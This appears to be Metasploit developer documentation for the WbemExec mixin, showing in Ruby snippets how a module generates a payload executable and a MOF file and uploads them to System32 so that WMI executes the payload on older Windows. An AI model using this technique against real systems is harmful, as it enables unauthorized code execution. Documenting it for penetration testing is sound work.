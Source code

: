 Windows Management Instrumentation (WMI) is Microsoft's implementation of Web-Based Enterprise Management (WBEM), which uses Managed Object Format (MOF) to create Common Information Model (CIM) classes. The security community was actually unfamiliar with the evilness of this technology until the birth of Stuxnet, which used a MOF file to exploit a vulnerability allowing the attacker to create files via a fake Printer Spooler service. This technique was later reverse-engineered and demonstrated in Metasploit's [ms10_061_spoolss.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/smb/ms10_061_spoolss.rb) module, and that significantly changed how we approach write-privilege attacks. Generally speaking, if you find yourself being able to write to system32, you can most likely take advantage of this technique.

### Requirements

To to able to use the ```WBemExec``` mixin, you must meet these requirements:

* Write permission to C:\Windows\System32\
* Write permission to C:\Windows\System32\Wbem\
* The target must NOT be newer than Windows Vista (so mostly good for XP, Win 2003, or older). This is more of a limitation from the API, not the technique. Newer Windows operating systems need the MOF file to be pre-compiled first.

### Usage

First, include the ```WbemExec``` mixin under the scope of your ```MetasploitModule``` class. You will also need the ```EXE``` mixin to generate an executable:

```ruby
include Msf::Exploit::EXE
include Msf::Exploit::WbemExec
```

Next, generate a payload name and the executable:

```ruby
payload_name = "evil.exe"
exe = generate_payload_exe
```

And then generate the mof file using the ```generate_mof``` method. The first argument should be the name of the mof file, and the second argument is the payload name:

```ruby
mof_name = "evil.mof"
mof = generate_mof(mof_name, payload_name)
```

Now you're ready to write/upload your files to the target machine. Always make sure you upload the payload executable first to ```C:\Windows\System32\```.

```ruby
upload_file_to_system32(payload_name, exe) # Write your own upload method
```

And then now you can upload the mof file to ```C:\Windows\System32\wbem\```:

```ruby
upload_mof(mof_name, mof) # Write your own upload method
```

Once the mof file is uploaded, the Windows Management Service should pick that up and execute it, which will end up executing your payload in system32. Also, the mof file will automatically be moved out of the mof directory after use.

### References

- <https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/wbemexec.rb>
- <https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/smb/ms10_061_spoolss.rb>
